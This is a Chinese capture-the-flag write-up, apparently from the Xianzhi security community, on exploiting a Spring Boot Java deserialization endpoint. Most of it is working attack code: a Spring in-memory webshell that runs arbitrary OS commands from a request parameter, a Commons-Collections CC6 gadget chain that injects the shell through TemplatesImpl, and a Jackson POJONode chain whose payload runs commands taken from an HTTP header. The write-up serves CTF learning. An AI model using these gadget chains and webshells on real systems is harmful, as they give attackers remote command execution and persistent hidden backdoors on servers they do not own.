


# 记一道CC6-TemplatesImpl链和Jackson原链打Spring内存马的利用-先知社区

> **来源**: https://xz.aliyun.com/news/16038  
> **文章ID**: 16038

---

## Polar CC

源码给了工具类Tools

```
package org.polar.ctf.util;  

import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.util.Base64;  

/* loaded from: Tools.class */  
public class Tools {  
    public static byte[] base64Decode(String base64) {  
        return Base64.getDecoder().decode(base64);  
    }  
    public static String base64Encode(byte[] bytes) {  
        return Base64.getEncoder().encodeToString(bytes);  
    }  
    public static byte[] serialize(Object obj) throws Exception {  
        ByteArrayOutputStream btout = new ByteArrayOutputStream();  
        new ObjectOutputStream(btout).writeObject(obj);  
        return btout.toByteArray();  
    }  
    public static Object deserialize(byte[] serialized) throws Exception {  
        return new ObjectInputStream(new ByteArrayInputStream(serialized)).readObject();  
    }}

```

漏洞点在路由`/read`，

```
package org.polar.ctf.controller;  

import org.polar.ctf.util.Tools;  
import org.springframework.stereotype.Controller;  
import org.springframework.web.bind.annotation.RequestMapping;  
import org.springframework.web.bind.annotation.ResponseBody;  

@Controller  
/* loaded from: ReadController.class */  
public class ReadController {  
    @RequestMapping({"/read"})  
    @ResponseBody  
    public String getObj(String obj) throws Exception {  
        return Tools.deserialize(Tools.base64Decode(obj)).toString();  
    }}

```

现在就需要看依赖找到合适的反序列化链子

看一下pom依赖有CC依赖

```
<?xml version="1.0" encoding="UTF-8"?>  
<project xmlns="http://maven.apache.org/POM/4.0.0"  
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">  
    <modelVersion>4.0.0</modelVersion>  
    <parent>  
        <groupId>org.springframework.boot</groupId>  
        <artifactId>spring-boot-starter-parent</artifactId>  
        <version>2.7.4</version>  
        <relativePath/> <!-- lookup parent from repository -->  
    </parent>  

    <groupId>org.example</groupId>  
    <artifactId>CC</artifactId>  
    <version>1.0-SNAPSHOT</version>  

    <properties>  
        <maven.compiler.source>8</maven.compiler.source>  
        <maven.compiler.target>8</maven.compiler.target>  
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>  
    </properties>  
    <dependencies>  
        <dependency>  
            <groupId>commons-collections</groupId>  
            <artifactId>commons-collections</artifactId>  
            <version>3.1</version>  
        </dependency>  
        <dependency>  
            <groupId>org.springframework.boot</groupId>  
            <artifactId>spring-boot-starter-web</artifactId>  
        </dependency>  
    </dependencies>  
    <build>  
        <finalName>CC</finalName>  
        <plugins>  
            <plugin>  
                <groupId>org.springframework.boot</groupId>  
                <artifactId>spring-boot-maven-plugin</artifactId>  
            </plugin>  
        </plugins>  
    </build>  
</project>

```

看一下lib有CC3.1和jackson依赖



### 方法一

注意到存在`commons-collections`依赖，且版本为`3.1`。可使用CC链打反序列化。

`Commons-Collections 3.2.1`版本符合 CC6，并且jdk版本无限制  
`cc`链执行任意命令的链子流程如下

```
HashMap.readObject()
  putForCreate(key) === key.hashCode() === TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
      LazyMap.get()
         ChainedTransformer.transform()
          ConstantTransformer.transform() // 获取Runtime.class
          InvokerTransformer.transform()   // 获取Runtime.getRuntime
          InvokerTransformer.transform()   // 获取Runtime实例
          InvokerTransformer.transform()   // 调用exec方法触发rce

```

因为靶场不出网所以无法获取flag，还是以打回显链为目的，可使用加载恶意类的形式实现任意代码执行：我们打Spring 内存马

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.Method;
/**

 * 适用于 SpringMVC+Tomcat的环境，以及Springboot 2.x 环境.

 *   因此比 SpringControllerMemShell.java 更加通用

 *   Springboot 1.x 和 3.x 版本未进行测试

 */
@
Controller
public class SpringControllerMemShell3 extends AbstractTranslet
{  
    public SpringControllerMemShell3()
    {    
        try
        {      
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);      
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);      
            Method method2 = SpringControllerMemShell3.class.getMethod("test");      
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();      
            Method getMappingForMethod = mappingHandlerMapping.getClass().getDeclaredMethod("getMappingForMethod", Method.class, Class.class);      
            getMappingForMethod.setAccessible(true);      
            RequestMappingInfo info =            (RequestMappingInfo) getMappingForMethod.invoke(mappingHandlerMapping, method2, SpringControllerMemShell3.class);      
            SpringControllerMemShell3 springControllerMemShell = new SpringControllerMemShell3("aaa");      
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);    
        }
        catch(Exception e)
        {    }  
    }  @
    Override   public void transform(DOM document, SerializationHandler[] handlers) throws TransletException
    {  }  @
    Override   public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException
    {  }  
    public SpringControllerMemShell3(String aaa)
    {  }  @
    RequestMapping("/malicious")   public void test() throws IOException
    {    
        HttpServletRequest request = ((ServletRequestAttributes)(RequestContextHolder.currentRequestAttributes())).getRequest();    
        HttpServletResponse response = ((ServletRequestAttributes)(RequestContextHolder.currentRequestAttributes())).getResponse();    
        try
        {      
            String arg0 = request.getParameter("cmd");      
            PrintWriter writer = response.getWriter();      
            if(arg0 != null)
            {        
                String o = "";        
                ProcessBuilder p;        
                if(System.getProperty("os.name").toLowerCase().contains("win"))
                {          
                    p = new ProcessBuilder(new String[]
                    {
                        "cmd.exe", "/c", arg0
                    });        
                }
                else
                {          
                    p = new ProcessBuilder(new String[]
                    {
                        "/bin/sh", "-c", arg0
                    });        
                }        
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");        
                o = c.hasNext() ? c.next() : o;        
                c.close();        
                writer.write(o);        
                writer.flush();        
                writer.close();      
            }
            else
            {        
                response.sendError(404);      
            }    
        }
        catch(Exception e)
        {    }  
    }
}

```

CC6链构造如下

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC6WithTp {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class ct = templates.getClass();
        byte[] code = Files.readAllBytes(Paths.get("SpringControllerMemShell3.class"));
        byte[][] bytes = {code};
        Field ctDeclaredField = ct.getDeclaredField("_bytecodes");
        ctDeclaredField.setAccessible(true);
        ctDeclaredField.set(templates,bytes);
        Field nameField = ct.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"Jay17");
        Field tfactory = ct.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)


        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        Map<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");
//
//        //查看构造函数，传入的key和value
        HashMap<Object, Object> map1 = new HashMap<>();
        //map的固定语法，必须要put进去,这里的put会将链子连起来，触发命令执行
        map1.put(tiedMapEntry, "bbb");
        lazyMap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);

//
        serialize(map1);
        //unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("./ser.bin"));
        objectOutputStream.writeObject(obj);
    }
    public static Object unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        Object object = objectInputStream.readObject();
        return object;
    }
}

```

### 方法2

既然有jackson依赖，我们打Jackson原生反序列化

利用的是Jackson中的PojoNode 他的toString是可以直接触发任意的getter的 触发条件如下

* 不需要存在该属性
* getter方法需要有返回值
* 尽可能的只有一个getter

最为经典的一条链子，只需要把FastJson的JsonObject修改为PoJoNode即可：

```
import com.fasterxml.jackson.databind.node.POJONode;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import javassist.*;  
import org.springframework.http.HttpEntity;  
import org.springframework.http.HttpHeaders;  
import org.springframework.http.ResponseEntity;  
import org.springframework.web.client.RestTemplate;  
import org.springframework.aop.framework.AdvisedSupport;  
import javax.management.BadAttributeValueExpException;  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.net.URI;  
import java.security.*;  
import java.util.Base64;  

public class TemplatesImplChain {  
    public static CtClass genPayloadForLinux() throws NotFoundException, CannotCompileException {  
        ClassPool classPool = ClassPool.getDefault();  
        CtClass clazz = classPool.makeClass("A");  
        if ((clazz.getDeclaredConstructors()).length != 0) {  
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);  
        }        clazz.addConstructor(CtNewConstructor.make("public B() throws Exception {\n" +  
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();\n" +  
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();\n" +  
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();\n" +  
                "                String[] cmd =  new String[]{\"sh\", \"-c\", httprequest.getHeader(\"C\")};\n" +  
                "                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter(\"\\\\A\").next().getBytes();\n" +  
                "                httpresponse.getWriter().write(new String(result));\n" +  
                "                httpresponse.getWriter().flush();\n" +  
                "                httpresponse.getWriter().close();\n" +  
                "        }", clazz));  
        // 兼容低版本jdk  
        clazz.getClassFile().setMajorVersion(50);  
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());  
        clazz.setSuperclass(superClass);  
        return clazz;  
    }    public static Object makeTemplatesImplAopProxy(TemplatesImpl templates) throws Exception {  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(templates);  
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
        constructor.setAccessible(true);  
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);  
        return proxy;  
    }    public static void main(String[] args) throws Exception {  

        ClassPool pool = ClassPool.getDefault();  
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");  
        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");  
        ctClass0.removeMethod(writeReplace);  
        ctClass0.toClass();  

        byte[] bytes = genPayloadForLinux().toBytecode();  
        TemplatesImpl templatesImpl = new TemplatesImpl();  
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});  
        setFieldValue(templatesImpl, "_name", "boogipop");  
        setFieldValue(templatesImpl, "_tfactory", null);  
        POJONode jsonNodes = new POJONode(makeTemplatesImplAopProxy(templatesImpl));  
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);  
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(exp,jsonNodes);  
        ByteArrayOutputStream barr = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);  
        objectOutputStream.writeObject(exp);  
        FileOutputStream fout=new FileOutputStream("1.ser");  
        fout.write(barr.toByteArray());  
        fout.close();  
        FileInputStream fileInputStream = new FileInputStream("1.ser");  
        System.out.println(serial(exp));  
    }  
    public static String serial(Object o) throws IOException, NoSuchFieldException {  
        ByteArrayOutputStream baos = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(baos);  
        oos.writeObject(o);  
        oos.close();  

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());  
        return base64String;  

    }  
    public static void deserial(String data) throws Exception {  
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);  
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);  
        ObjectInputStream ois = new ObjectInputStream(bais);  
        ois.readObject();  
        ois.close();  
    }  
    private static void Base64Encode(ByteArrayOutputStream bs){  
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());  
        String s = new String(encode);  
        System.out.println(s);  
        System.out.println(s.length());  
    }    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{  
        Field f = obj.getClass().getDeclaredField(field);  
        f.setAccessible(true);  
        f.set(obj, arg);  
    }}

```


